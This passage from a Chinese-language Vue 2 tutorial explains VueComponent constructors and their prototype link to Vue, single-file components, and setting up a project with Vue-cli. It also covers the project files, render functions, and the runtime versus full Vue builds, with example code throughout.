

### 13.4 VueComponent构造函数

组件的本质是一个名为`VueComponent`的**构造函数**，且不是程序员定义的，是`Vue.extend`生成后返回的。

使用组件标签`<school></school>`,Vue解析时就会根据标签帮我们创建组件school的实例对象,该对象就是Vue帮我们执行`new VueComponent(options)`创建的。

> 注意：
>
> 每次调用`Vue.extend`返回的都是一个**全新的**`VueComponent构造函数`。虽然都是`VueComponent构造函数`，但本质是不同的构造函数。

vm中的data函数、methods中的函数、watch中的函数、computed中的函数，它们的this都是指向Vue实例`vm`。

组件中的data函数、methods中的函数、watch中的函数、computed中的函数，它们的this都是指向VueComponent实例`vc`,又叫组件实例对象。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>VueComponent构造函数</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 容器可不写内容 -->
    <div id="root">
      <hello></hello>
      <school></school>
    </div>

    <script>
      Vue.config.productionTip = false;

      //定义school组件
      const school = Vue.extend({
        template: `
          <div>
              <h2>学校名称：{{name}}</h2>
              <h2>学校地址：{{address}}</h2>
              <button @click='showName'>点我提示学校名称</button>
          </div>
          `,
        data() {
          return {
            name: "北大",
            address: "北京"
          };
        },
        methods: {
          showName() {
            //this是VueComponent组件的实例对象vc
            console.log(this);
            alert(this.name);
          }
        }
      });

      //定义一个test子组件
      const test = Vue.extend({
        template: `<h2>{{msg}}</h2>`,
        data() {
          return {
            msg: "vue2"
          };
        }
      });

      //定义hello组件
      const hello = Vue.extend({
        template: `
        <div>
          <h1>{{msg}}</h1>
          <test></test>
        </div>
        `,
        data() {
          return {
            msg: "欢迎学习Vue2"
          };
        },
        components: {
          test
        }
      });

      console.log("school--", school); // VueComponent函数，是构造函数
      console.log("hello--", hello); // VueComponent函数
      console.log(school === hello); //false 说明两个VueComponent函数不是同一个
      //第二种验证方式
      school.a = 99;
      console.log(school.a); //99
      console.log(hello.a); //undefined 说明两个VueComponent函数不是同一个

      const vm = new Vue({
        el: "#root",
        components: {
          hello,
          school
        }
      });

      console.log(vm);
      console.log(vm.$children); //[VueComponent, VueComponent] vm的$children属性管理在两个vc实例对象 hello school组件
      console.log(vm.$children[0].$children); //[VueComponent] test组件，它是hello的子组件
    </script>
  </body>
</html>
```

Vue的源码中`Vue.extend`函数的代码,大部分内容都可忽略。核心就是两句代码，**定义一个构造函数，然后返回**。

```js
Vue.extend = function (extendOptions) {
    //   extendOptions = extendOptions || {}
    //   var Super = this
    //   var SuperId = Super.cid
    //   var cachedCtors = extendOptions._Ctor || (extendOptions._Ctor = {})
    //   if (cachedCtors[SuperId]) {
    //     return cachedCtors[SuperId]
    //   }
    //   var name =
    //     getComponentName(extendOptions) || getComponentName(Super.options)
    //   if (name) {
    //     validateComponentName(name)
    //   }
      var Sub = function VueComponent(options) {
        this._init(options)
      }
    //   Sub.prototype = Object.create(Super.prototype)
    //   Sub.prototype.constructor = Sub
    //   Sub.cid = cid++
    //   Sub.options = mergeOptions(Super.options, extendOptions)
    //   Sub["super"] = Super
      // For props and computed properties, we define the proxy getters on
      // the Vue instances at extension time, on the extended prototype. This
      // avoids Object.defineProperty calls for each instance created.
    //   if (Sub.options.props) {
    //     initProps(Sub)
    //   }
    //   if (Sub.options.computed) {
    //     initComputed(Sub)
    //   }
      // allow further extension/mixin/plugin usage
    //   Sub.extend = Super.extend
    //   Sub.mixin = Super.mixin
    //   Sub.use = Super.use
      // create asset registers, so extended classes
      // can have their private assets too.
    //   ASSET_TYPES.forEach(function (type) {
    //     Sub[type] = Super[type]
    //   })
      // enable recursive self-lookup
    //   if (name) {
    //     Sub.options.components[name] = Sub
    //   }
      // keep a reference to the super options at extension time.
      // later at instantiation we can check if Super's options have
      // been updated.
    //   Sub.superOptions = Super.options
    //   Sub.extendOptions = extendOptions
    //   Sub.sealedOptions = extend({}, Sub.options)
      // cache constructor
    //   cachedCtors[SuperId] = Sub
      return Sub
    }
  }
```

vm与vc实例内容很多都一样。组件是可复用的Vue实例，所有它们与new Vue接收大部分相同的配置项。也有例外，例如el这样根实例特有的配置项，就不能在组件中配置。

### 13.5 一个重要的内置关系

先回顾一下ES6中原型相关的知识。

```js
function Demo() {
  this.a = 1;
  this.b = 2;
}

const d = new Demo();
console.log(Demo.prototype); // 显式原型属性，是函数特有的属性
console.log(d.__proto__); // 隐式原型属性，是构造函数实例对象的属性
console.log(Demo.prototype === d.__proto__); //true 显示原型属性与隐式原型属性是指向同一个原型对象

//通过显式原型属性操作原型对象，追加一个x属性，值为99
Demo.prototype.x = 99;

//通过隐式原型属性访问x属性
console.log(d.__proto__.x); //99
```

Vue中有个重要的内置关系:`VueComponent.prototype.__proto__===Vue.prototype`。有了这个关系就可以让**组件的实例对象vc访问到Vue原型上的属性与方法**。



```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>VueComponent构造函数</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 容器可不写内容 -->
    <div id="root">
      <school></school>
    </div>

    <script>
      Vue.config.productionTip = false;

      //定义school组件
      const school = Vue.extend({
        template: `
          <div>
              <h2>学校名称：{{name}}</h2>
              <h2>学校地址：{{address}}</h2>
              <button @click='showName'>点我提示学校名称</button>
          </div>
          `,
        data() {
          return {
            name: "北大",
            address: "北京"
          };
        },
        methods: {
          showName() {
            //this是VueComponent组件的实例对象vc
            console.log(this);
            alert(this.name);
            //vc访问追加属性
            console.log(this.x); //99 是this.__proto__.__proto__.x的简写
            console.log(this.__proto__.__proto__.x);
          }
        }
      });

      const vm = new Vue({
        el: "#root",
        components: {
          school
        }
      });

      //验证VueComponent.prototype.__proto__===Vue.prototype关系是否成立，不能直接访问VueComponent
      console.log(school.prototype.__proto__ === Vue.prototype); //true
      console.dir(school); //可以展示构造函数上的属性

      //Vue原型追加属性
      Vue.prototype.x = 99;
      //VueComponent函数上访问追加的属性
      console.log(school.prototype.__proto__.x); //99
      //vm访问
      console.log(vm.x); //99 vm.__proto__.x简写
    </script>
  </body>
</html>
```

### 13.6 单文件组件

单文件组件是指一个文件(`.vue`后缀名)只包含有1个组件。

浏览器默认是不认识`.vue`的文件的。要通过编译转化为js、html、css文件，编译的方式有两种：

1. 通过`webpack`自己去找插件完成编译整个的流程，也就是自己搭建编译工作流；
2. 通过vue的**脚手架**直接编译，本质上脚手架就是vue通过`webpack`搭建的一套专业的工作流。

单文件文件名的命名规则跟组件名的命名规则一致，推荐使用**School首字母大写**和**MySchool大驼峰写法**。

要想vscode中的vue文件有编码提示，推荐安装**插件Vetur**。该插件有快捷键`<v+enter`就可以直接创建vue模板。



案例：**单文件组件School组件**，核心的三个标签`<template>`、`<script>`、`<style>`

```vue
<template>
  <!-- 组件的结构 html内容-->
  <div class="demo">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
    <button @click="showName">点我提示学校名称</button>
  </div>
</template>

<script>
// 组件交互相关的代码(数据、方法等) js内容
const school = Vue.extend({
  //推荐name属性设置为文件名School
  name: "School",
  data() {
    return {
      name: "北大",
      address: "北京"
    };
  },
  methods: {
    showName() {
      alert(this.name);
    }
  }
});
export default school; //推荐使用默认暴露 school内容
</script>

<style>
/* 组件的样式  css内容 */
.demo {
  background-color: orange;
}
</style>
```

案例：简化单文件组件内容**Student组件**(样式内容没有可省略)

```vue
<template>
  <!-- 组件的结构 html内容-->
  <div>
    <h2>学生名称：{{ name }}</h2>
    <h2>学生年龄：{{ age }}</h2>
  </div>
</template>

<script>
// 组件交互相关的代码(数据、方法等) js内容
//直接暴露，省略写Vue.extend
export default {
  //推荐name属性设置为文件名School
  name: "Student",
  data() {
    return {
      name: "张三",
      age: 18
    };
  }
};
</script>
```

**标准化流程开发结构**(以上边的Student和School组件为例)



`App.vue`专门管理所有vue组件

```vue
<template>
  <div>
    <School></School>
    <Student></Student>
  </div>
</template>

<script>
//引入组件
import School from "./School.vue";
import Student from "./Student"; //.vue可省略

export default {
  name: "App",
  components: {
    School,
    Student
  }
};
</script>
```

js入口文件`main.js`(或者app.js)，主要用于创建vm实例,管理App组件

```js
import App from "./App.vue";

new Vue({
  el: "#root",
  // 配置App
  template: `<App/>`,
  components: { App }
});
```

`index.html`，网页入口文件

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>index入口</title>
  </head>
  <body>
    <!-- 准备一个容器 -->
    <div id="root"></div>
    <!-- 先引入vue,然后再引入入口文件main.js -->
    <script type="text/javascript" src="../../js/vue.js"></script>
    <script type="text/javascript" src="main.js"></script>
  </body>
</html>
```

上述内容无法直接运行，会报错`Cannot use import statement outside a module`，因为浏览器不直接支持ES6的模块化语法，必须借助**脚手架**编译后才能生效。

## 十四、脚手架 Vue-cli

Vue脚手架是Vue官方提供的标准化开发工具(开发平台)，全名叫`Vue-cli`，cli全称为`command line interface`命令行接口工具，推荐使用最新版本。Vue3则推荐使用`vite`代替`Vue.cli`，因为它更轻量级。

官方文档:https://cli.vuejs.org/zh

### 14.1 安装脚手架

Vue-cli脚手架安装使用步骤：

1. **安装脚手架**，推荐全局安装防止命令无效，这里以学习为主，就全局安装特定版本防止出错

   ```node
   //全局安装，全局安装是一次安装完成后续就可以一直使用，且任何目录都行
   npm install -g @vue/cli
   //全局安装特定版本
   npm install -g @vue/cli@4.5.13
   
   //安装成功后使用指令测试是否安装成功,打印出版本就是安装成功
   vue -V //打印@vue/cli 4.5.13
   ```

   如果下载速度很慢，建议切换国内的淘宝镜像路径。

   

2. 切换到要创建项目的目录，然后使用命令**创建项目**，注意项目名称要正确，多个单词间用_分隔最好。

   ```node
   vue create 项目名
   ```

   如果报错就把`C:\Users\wang\AppData\Roaming\npm\node_modules\@vue\cli\node_modules\@vue\compiler-core\node_modules\entities`下的`package.json`中的`"type": "module"`配置删除。

   

   等待脚手架把项目相关的内容下载完成

   

3. **启动项目**，记得先进入项目目录后再启动

   ```node
   cd vue2_demo
   npm run serve
   ```

   启动成功会出现下面内容

   

   访问域名，成功就显示默认helloworld的内容

   

### 14.2 脚手架项目结构分析(重要)

初始项目文件夹可以分为4部分，具体内容如图：


`README.md`文件

````js
# vue2_demo

## Project setup
```
npm install
```

### Compiles and hot-reloads for development
```
npm run serve
```

### Compiles and minifies for production
```
npm run build
```

### Lints and fixes files
```
npm run lint
```

### Customize configuration
See [Configuration Reference](https://cli.vuejs.org/config/)
````

`package.json`文件

```json
{
  "name": "vue2_demo", //项目名
  "version": "0.1.0", //项目版本
  "private": true,
   //脚本命令配置
  "scripts": {
    "serve": "vue-cli-service serve",  //npm run serve实际执行的就是该命令。效果就是开发时测试使用，Vue给你配置好服务直接看页面效果
    "build": "vue-cli-service build", //开发完成后，编译代码生成html、js、css等浏览器认识的内容
    "lint": "vue-cli-service lint" //lint是对整个项目进行语法检查的指令，很少用
  },
  //生产环境
  "dependencies": {
    "core-js": "^3.6.5", //安装的第三方包
    "vue": "^2.6.11"
  },
  //开发环境
  "devDependencies": {
    "@vue/cli-plugin-babel": "~4.5.13",
    "@vue/cli-plugin-eslint": "~4.5.13",
    "@vue/cli-service": "~4.5.13",
    "babel-eslint": "^10.1.0",
    "eslint": "^6.7.2",
    "eslint-plugin-vue": "^6.2.2",
    "vue-template-compiler": "^2.6.11"
  },
  //eslint的配置
  "eslintConfig": {
    "root": true,
    "env": {
      "node": true
    },
    "extends": [
      "plugin:vue/essential",
      "eslint:recommended"
    ],
    "parserOptions": {
      "parser": "babel-eslint"
    },
    "rules": {}
  },
  "browserslist": [
    "> 1%",
    "last 2 versions",
    "not dead"
  ]
}
```

`babel.config.js`文件

```js
module.exports = {
  presets: [
    '@vue/cli-plugin-babel/preset'
  ]
}
```

`main.js`文件，程序入口文件，执行`npm run serve`指令就是执行该文件。项目有**热更新功能**，修改了页面就会刷新。

```js
// 该文件是项目入口文件
//引入Vue,vue包是在node_modules
import Vue from "vue";
//引入App组件，它是所有组件的父组件
import App from "./App.vue";

//关闭vue的生产提示
Vue.config.productionTip = false;

//创建Vue实例对象vm，配置容器id为app，render函数的效果将App组件放入容器中
new Vue({
  render: (h) => h(App)
}).$mount("#app");
```

`App.vue`文件,该内容跟我们之前写的App组件基本一样。

```vue
<template>
  <div id="app">
    <!-- 引入图片，图片资源在静态文件夹assets中 -->
    
    <!-- 使用Helloworld组件 -->
    <HelloWorld msg="Welcome to Your Vue.js App" />
  </div>
</template>

<script>
// 引入Helloworld组件
import HelloWorld from "./components/HelloWorld.vue";

//组件创建
export default {
  name: "App",
  components: {
    HelloWorld
  }
};
</script>

<style>
/* 编写app的样式 */
#app {
  font-family: Avenir, Helvetica, Arial, sans-serif;
  -webkit-font-smoothing: antialiased;
  -moz-osx-font-smoothing: grayscale;
  text-align: center;
  color: #2c3e50;
  margin-top: 60px;
}
</style>
```

`HelloWorld.vue`文件,内容跟普通组件差不多，可不看。

```vue
<template>
  <div class="hello">
    <h1>{{ msg }}</h1>
    <p>
      For a guide and recipes on how to configure / customize this project,<br>
      check out the
      <a href="https://cli.vuejs.org" target="_blank" rel="noopener">vue-cli documentation</a>.
    </p>
    <h3>Installed CLI Plugins</h3>
    <ul>
      <li><a href="https://github.com/vuejs/vue-cli/tree/dev/packages/%40vue/cli-plugin-babel" target="_blank" rel="noopener">babel</a></li>
      <li><a href="https://github.com/vuejs/vue-cli/tree/dev/packages/%40vue/cli-plugin-eslint" target="_blank" rel="noopener">eslint</a></li>
    </ul>
    <h3>Essential Links</h3>
    <ul>
      <li><a href="https://vuejs.org" target="_blank" rel="noopener">Core Docs</a></li>
      <li><a href="https://forum.vuejs.org" target="_blank" rel="noopener">Forum</a></li>
      <li><a href="https://chat.vuejs.org" target="_blank" rel="noopener">Community Chat</a></li>
      <li><a href="https://twitter.com/vuejs" target="_blank" rel="noopener">Twitter</a></li>
      <li><a href="https://news.vuejs.org" target="_blank" rel="noopener">News</a></li>
    </ul>
    <h3>Ecosystem</h3>
    <ul>
      <li><a href="https://router.vuejs.org" target="_blank" rel="noopener">vue-router</a></li>
      <li><a href="https://vuex.vuejs.org" target="_blank" rel="noopener">vuex</a></li>
      <li><a href="https://github.com/vuejs/vue-devtools#vue-devtools" target="_blank" rel="noopener">vue-devtools</a></li>
      <li><a href="https://vue-loader.vuejs.org" target="_blank" rel="noopener">vue-loader</a></li>
      <li><a href="https://github.com/vuejs/awesome-vue" target="_blank" rel="noopener">awesome-vue</a></li>
    </ul>
  </div>
</template>

<script>
export default {
  name: 'HelloWorld',
  props: {
    msg: String
  }
}
</script>

<!-- Add "scoped" attribute to limit CSS to this component only -->
<style scoped>
h3 {
  margin: 40px 0 0;
}
ul {
  list-style-type: none;
  padding: 0;
}
li {
  display: inline-block;
  margin: 0 10px;
}
a {
  color: #42b983;
}
</style>
```

`index.html`文件,核心就是**容器**那一句代码

```js
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <!-- 针对IE浏览器的特殊配置，让IE浏览器以最高的渲染级别渲染页面 -->
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <!-- 开启移动端的理想视口 -->
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <!-- 引入图标，路径中的Base_URL是public文件夹所在的路径 -->
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <!-- 配置网页标题，具体的内容是在package.json中的name属性内容 webpack完成的 -->
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <!-- 不支持js脚本时展示 -->
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
    </noscript>
    <!-- 容器 -->
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
```

了解完结构，其实就可以把之前我们自己写的School和Student代码复制到脚手架组件文件中，HelloWorld可以删除。然后修改引入组件的路径即可。

### 14.3 render函数与vue版本说明

不用render函数，使用之前单文件组件Vue实例的写法，在脚手架中的会报错,界面无法渲染出来。

```js
// 该文件是项目入口文件

//引入Vue,vue包是在node_modules
import Vue from "vue";
//引入App组件，它是所有组件的父组件
import App from "./App.vue";

//关闭vue的生产提示
Vue.config.productionTip = false;


//之前单文件组件的写法
new Vue({
  el: "#app",
  template: `<App></App>`,
  components: { App }
});

//创建Vue实例对象，配置容器id为app，render函数的效果类似挂载app实例
// new Vue({
//   render: (h) => h(App)
// }).$mount("#app");
```

> **错误提示:**
>
> You are using the runtime-only build of Vue where the template compiler is not available. Either pre-compile the templates into render functions, or use the compiler-included build.
>
> 翻译过来就是脚手架中引入的vue版本并非开发版而是运行时版本，该版本没有**模板解析器**，因此无法识别`template`中的内容。它推荐我们使用`render`函数替换或者引入`完整版vue`。

`import Vue from "vue"`脚手架中引入vue的语法是ES6模块化语法的**文件夹引入**，具体引入哪个文件是配置在vue包的`package.json`文件中的`"module": "dist/vue.runtime.esm.js"`。esm其实就是`ES module`的简写。

runtime版本没有模板解析器，


因此要解决上边的问题，引入完整版的vue即可

```js
// 该文件是项目入口文件

//引入Vue,vue包是在node_modules
// import Vue from "vue";
// 引入完整版的vue
import Vue from "vue/dist/vue.js";
//引入App组件，它是所有组件的父组件
import App from "./App.vue";

//关闭vue的生产提示
Vue.config.productionTip = false;

//之前单文件组件的写法
new Vue({
  el: "#app",
  template: `<App></App>`,
  components: { App }
});

//创建Vue实例对象，配置容器id为app，render函数的效果类似挂载app实例
// new Vue({
//   render: (h) => h(App)
// }).$mount("#app");
```

继续使用**运行版vue**，它只有vue核心而没有**模板解析器**,不能使用`template`，需要使用`render`函数接收到`CreateElement`函数去指定具体的内容。

```js
// 该文件是项目入口文件

//引入Vue,vue包是在node_modules
// import Vue from "vue";
// 引入完整版的vue
import Vue from "vue";
//引入App组件，它是所有组件的父组件
import App from "./App.vue";

//关闭vue的生产提示
Vue.config.productionTip = false;

//之前单文件组件的写法
// new Vue({
//   el:
//   template: `<App></App>`,
//   components: { App }
// });

//创建Vue实例对象，配置容器id为app，render函数的效果类似挂载app实例
new Vue({
  el: "#app",
  //1.完整render函数的写法 createElement是个函数 render函数必须有返回值
  render(createElement) {
    console.log("render", createElement);
    //创建h1元素，内容是你好，返回创建的元素vue就可以渲染到页面上
    return createElement("h1", "你好");
  }
  //2.简写render函数，其中App不能有引号，它是App组件，具体页面内容在App组件中
  // render: (h) => h(App)
});
```

Vue制作了这么多版本，其目的就是为了精简内容。Vue主要有两个组成部分：`Vue的核心+模板解析器`。其中模板解析器占1/3的内容，但模板解析器一般只用于开发，当完成编译后变成html，js等文件，该内容就完全是多余的，因为没有模板内容了。

> **注意：**
>
> 模板解析器只解析Vue实例vm中的template配置，组件中的标签`<template>`,有专门的第三方包`vue-template-compiler`进行解析。

### 14.4 脚手架默认配置

在脚手架的默认配置中，有几个文件夹与文件名不能修改，比如src、public、main.js、index.html等。

Vue把脚手架的配置文件隐藏了，就是为了防止用户随意修改。如果**只是看配置不修改**，可以使用指令

```vue
vue inspect > output.js  //该指令可以把vue的配置内容输出到名为output.js文件中
```

main.js文件的配置内容如下

```js
entry: {
    app: ["./src/main.js"]
}
```

如果要修改配置，需创建名为`vue.config.js`文件,该文件必须位于**项目根目录**。

> [!Note]
>
